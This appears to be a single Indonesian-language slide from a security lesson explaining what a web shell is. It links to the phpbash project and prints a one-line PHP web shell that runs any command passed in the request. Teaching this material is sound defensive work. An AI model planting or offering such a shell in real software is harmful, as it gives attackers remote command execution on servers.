

# Web Shell
Sebuah script yang diunggah ke server web dan memungkinkan penyerang untuk berinteraksi dengan server tersebut secara remote (jarak jauh). Ekstensinya bergantung pada web framework.
https://github.com/Arrexel/phpbash/blob/master/phpbash.php
<?php system($_REQUEST['cmd']); ?>